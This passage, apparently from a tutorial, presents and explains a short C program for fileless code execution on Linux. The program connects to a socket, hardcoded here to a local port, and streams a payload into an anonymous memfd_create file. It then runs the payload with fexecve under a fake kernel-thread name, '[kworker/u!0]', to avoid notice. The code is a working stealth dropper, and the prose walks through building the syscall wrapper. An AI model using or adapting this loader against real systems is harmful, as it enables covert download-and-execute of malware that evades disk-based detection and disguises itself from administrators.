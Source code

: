 Let’s first take a look to the code and then we can comment it.

The code
This is the code:

#include <stdio.h>
#include <stdlib.h>

#include <sys/syscall.h>

#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define __NR_memfd_create 319
#define MFD_CLOEXEC 1

static inline int memfd_create(const char *name, unsigned int flags) {
    return syscall(__NR_memfd_create, name, flags);
}

extern char        **environ;

int main (int argc, char **argv) {
  int                fd, s;
  unsigned long      addr = 0x0100007f11110002;
  char               *args[2]= {"[kworker/u!0]", NULL};
  char               buf[1024];

  // Connect
  if ((s = socket (PF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0) exit (1);
  if (connect (s, (struct sockaddr*)&addr, 16) < 0) exit (1);
  if ((fd = memfd_create("a", MFD_CLOEXEC)) < 0) exit (1);

  while (1) {
      if ((read (s, buf, 1024) ) <= 0) break;
      write (fd, buf, 1024);
    }
  close (s);
  
  if (fexecve (fd, args, environ) < 0) exit (1);

  return 0;
    
}

It is pretty short and simple, isn’t it?. But there are a couple of things we have to say about it.

Calling memfd_create
The first thing we have to comment is that, there is no libc wrapper to the memfd_create system call. You would find this information in the memfd_create manpage’s NOTES section27. That means that we have to write our own wrapper.

First, we need to figure out the syscall index for memfd_create. Just use any on-line syscall list. Remember that the indexes changes with the architecture, so if you plan to use the code on an ARM or a MIPS, you may need to use a different index. The index we used 319 is for x86_64.

You can see the wrapper at the very beginning of the code (just after the #include directives), using the syscall libc function.
